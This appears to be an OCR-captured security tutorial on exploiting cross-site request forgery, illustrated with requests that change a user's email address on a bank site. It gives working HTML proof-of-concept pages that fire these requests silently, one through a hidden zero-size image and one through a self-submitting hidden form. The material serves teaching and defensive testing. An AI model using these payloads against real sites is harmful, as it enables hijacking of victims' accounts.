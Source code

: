 ## How to exploit CSRF vulnerabilities?

`GET Scenario` - (never use GET request to submit data)

```shell
GET https://bank.com/email/change?email=test@test.ca HTTP/1.1
```

Script:

```html
<html>
  <body>
    <h1>Hello World!</h1>
    <img
      src="
        https://bank.com/email/change?email=at
        tacker@gmail.ca
        "
      width="0"
      height="0"
      border="0"
    />
  </body>
</html>
```

`POST Scenario` -

```shell
POST /email/change HTTP/1.1
Host: https://bank.com
…
email=test@test.ca
```

Script:

```html
<html>
  <body>
    <h1>Hello World!</h1>
    <iframe style="display:none" name="csrf-iframe"></iframe>
    <form
      action=" https://bank.com/email/change/"
      method="POST"
      target="csrf-
iframe"
      id="csrf-form"
    >
      <input type="hidden" name="email" value="test@test.ca" />
    </form>
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```
